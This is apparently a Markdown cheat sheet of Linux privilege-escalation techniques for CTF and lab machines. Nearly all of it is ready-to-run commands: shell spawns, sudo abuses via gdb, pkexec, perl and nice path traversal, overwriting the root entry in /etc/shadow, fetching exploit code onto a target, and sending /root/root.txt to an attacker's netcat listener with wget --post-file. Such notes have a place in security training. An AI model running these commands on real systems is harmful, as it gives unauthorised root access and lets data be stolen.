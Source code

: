 - ## Privilege escalation <a name="privilegeescalation"></a>
[easy way to get root/root.txt](#root.txt)
- `sudo -l`
- `bin/bash`
- `crontab -l`
- `find / -perm -u=s -type f 2>/dev/null`
```
find / -o -group `id -g` -perm \ 
 -g=w -perm -u=s -o -perm -o=w\
 -perm -u=s -o -perm -o=w \
 -perm -g=s -ls
```

- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```python -c 'import pty; pty.spawn("/bin/bash")'```
- ```python -c 'import os; os.setuid(0); os.system("/bin/sh")'```
- `echo os.system('/bin/bash')`
```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```
- `cat /etc/issue`

> [!IMPORTANT]
> - If you have permission to write /etc/shadow use the below commands
> - First you need to creat a one hash password using openssl
> - `openssl passwd -1 -salt abc password123` it will give you a hash $1$abc$DSFILJKSD7393llsd.0s/ copy that
> - Edit the root password
> - `root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`


- `os.execute('/bin/sh')`
- `exec "/bin/sh"`
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

# easy way to get root/root.txt <a name="root.txt"></a>
### 1️⃣ Read the Root Flag Using --input-file:
- Use a root-only file (/root/root.txt) as an input to wget.
- It will try to parse it as a URL, fail, and leak the content (flag) in the error.
  - `sudo wget --input-file=/root/root.txt`


### 2️⃣ Exfiltrate the Flag Using --post-file:
- Use wget to send the flag to your attack machine.
- Steps:
  - 1. On your Kali machine, start a netcat listener:
    - `nc -lnvp 443`
  - 2. On the victim (sammy), run:
    - `sudo wget --post-file=/root/root.txt http://<your-ip>:443/`
- >The flag is sent to your listener.
